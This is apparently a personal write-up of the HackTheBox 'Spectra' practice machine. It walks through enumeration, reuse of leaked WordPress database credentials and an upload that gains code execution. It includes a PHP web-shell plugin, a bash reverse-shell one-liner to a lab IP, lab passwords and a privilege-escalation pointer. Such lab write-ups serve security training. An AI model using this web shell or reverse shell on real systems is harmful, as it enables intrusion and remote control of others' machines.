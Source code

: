 ```yaml
---
title: HTB Spectra - Writeup
date: "2021-07-18"
draft: false
tags: ["hackthebox", "machines", "writeup"]
---
```


# Enumeration

## Nmap Scans

### Service Scan

```
# Nmap 7.91 scan initiated Fri Jun 11 23:59:16 2021 as: nmap -T4 -A -p22,80,3306 -oA nmap/service-scan -Pn 10.10.10.229
Nmap scan report for 10.10.10.229
Host is up (0.068s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql?
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Jun 12 00:01:05 2021 -- 1 IP address (1 host up) scanned in 109.31 seconds

```

**Summary**

- Ports opened -> 22, 80, 3306

## Enumeration: Port 80

Landing page:

![/img/spectra/Pasted_image_20210612000503.png](/img/spectra/Pasted_image_20210612000503.png)

Source code:

![/img/spectra/Pasted_image_20210612000522.png](/img/spectra/Pasted_image_20210612000522.png)

This uses `http://spectra.htb/` instead of the IP, so we modify in our `/etc/hosts` file as well

```
$ cat /etc/hosts | grep spectra.htb
10.10.10.229    spectra.htb
```

### /main

Landing page

![/img/spectra/Pasted_image_20210612000654.png](/img/spectra/Pasted_image_20210612000654.png)

It's a wordpress site.

- wpscan does not reveal anything interesting.

### /testing

- Error establishing database connection

Running ffuf

```
$ ffuf -u <http://spectra.htb/testing/FUZZ> -w /usr/share/wordlists/dirb/common.txt -r -v -c -ic -e .php,.txt -of html -o http/http-80-common-testing.html

       v1.3.0-git
________________________________________________

 :: Method           : GET
 :: URL              : <http://spectra.htb/testing/FUZZ>
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php .txt
 :: Output file      : http/http-80-common-testing.html
 :: File format      : html
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

[Status: 200, Size: 2514, Words: 1130, Lines: 27]
| URL | <http://spectra.htb/testing/>
    * FUZZ:

[Status: 200, Size: 19915, Words: 3331, Lines: 385]
| URL | <http://spectra.htb/testing/license.txt>
    * FUZZ: license.txt

[Status: 200, Size: 11460, Words: 5252, Lines: 102]
| URL | <http://spectra.htb/testing/wp-admin>
    * FUZZ: wp-admin

[Status: 200, Size: 627, Words: 259, Lines: 11]
| URL | <http://spectra.htb/testing/wp-content>
    * FUZZ: wp-content

[Status: 200, Size: 585, Words: 50, Lines: 7]
| URL | <http://spectra.htb/testing/wp-settings.php>
    * FUZZ: wp-settings.php

[Status: 200, Size: 25891, Words: 10424, Lines: 215]
| URL | <http://spectra.htb/testing/wp-includes>
    * FUZZ: wp-includes

[Status: 200, Size: 0, Words: 1, Lines: 1]
| URL | <http://spectra.htb/testing/xmlrpc.php>
    * FUZZ: xmlrpc.php

[Status: 200, Size: 0, Words: 1, Lines: 1]
| URL | <http://spectra.htb/testing/xmlrpc.php>
    * FUZZ: xmlrpc.php

:: Progress: [13842/13842] :: Job [1/1] :: 187 req/sec :: Duration: [0:01:45] :: Errors: 0 ::

```

- Going to `/testing/wp-admin` displays all the files in that directory. Perhaps, directory listing is turned on.
    
    ![/img/spectra/Pasted_image_20210617193018.png](/img/spectra/Pasted_image_20210617193018.png)
    
- Instead of going to `/testing/index.php` -> `/testing/` gives us all the files there.
    
    ![/img/spectra/Pasted_image_20210617193216.png](/img/spectra/Pasted_image_20210617193216.png)
    

==Should try *.php.save* during directory brute forcing as well==

Seeing the source code of `wp-config.php.save` gives DB credentials

![/img/spectra/Pasted_image_20210617193453.png](/img/spectra/Pasted_image_20210617193453.png)

```
define( 'DB_NAME', 'dev' );
/** MySQL database username */
define( 'DB_USER', 'devtest' );
/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```

Using this credentials to login as `administrator` on `http://spectra.htb/main/wp-admin/login.php` and we are in.

![/img/spectra/Pasted_image_20210617193948.png](/img/spectra/Pasted_image_20210617193948.png)

Going to theme editor and updating 404.php

![/img/spectra/Pasted_image_20210617194207.png](/img/spectra/Pasted_image_20210617194207.png)

Error:

![/img/spectra/Pasted_image_20210617194410.png](/img/spectra/Pasted_image_20210617194410.png)

### Getting shell by uploading plugin

```
┌──(fakebatman㉿harshit-maheshwari)-[~/CTFs/htb/machines/spectra]
└─$ cat rev.php
<?php

/**
 * Plugin Name: Wordpress Reverse Shell
 * Author: fake_batman_
 */
    system($_REQUEST['cmd']);

?>
┌──(fakebatman㉿harshit-maheshwari)-[~/CTFs/htb/machines/spectra]
└─$ zip rev.zip rev.php
updating: rev.php (deflated 3%
```

![/img/spectra/Pasted_image_20210617203800.png](/img/spectra/Pasted_image_20210617203800.png)

Upload the plugin.

Go to `view-source:<http://spectra.htb/main/wp-content/plugins/rev/rev.php?cmd=id>`

And we get RCE

![/img/spectra/Pasted_image_20210617204606.png](/img/spectra/Pasted_image_20210617204606.png)

```
bash -i >& /dev/tcp/10.10.14.28/4444 0>&1

```

# Escalating to user

![/img/spectra/Pasted_image_20210617213606.png](/img/spectra/Pasted_image_20210617213606.png)

![/img/spectra/Pasted_image_20210617213634.png](/img/spectra/Pasted_image_20210617213634.png)

![/img/spectra/Pasted_image_20210617213655.png](/img/spectra/Pasted_image_20210617213655.png)

The password `SummerHereWeCome!!` works for katie. Hehe!

```
┌──(fakebatman㉿harshit-maheshwari)-[~/CTFs/htb/machines/spectra]
└─$ ssh katie@spectra.htb
Password:
katie@spectra ~ $ ls
log  user.txt
katie@spectra ~ $ cat user.txt
e89d27fe195e911*****************
```

## Escalating to the root

We are use `katie` and need to get root.

### `sudo -l` output

```
katie@spectra /dev/shm $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl

```

Getting to root -> [https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9](https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9)

### linpeas.sh interesting screenshots

![/img/spectra/Pasted_image_20210618001207.png](/img/spectra/Pasted_image_20210618001207.png)

katie is in group `developers`

![/img/spectra/Pasted_image_20210618001309.png](/img/spectra/Pasted_image_20210618001309.png)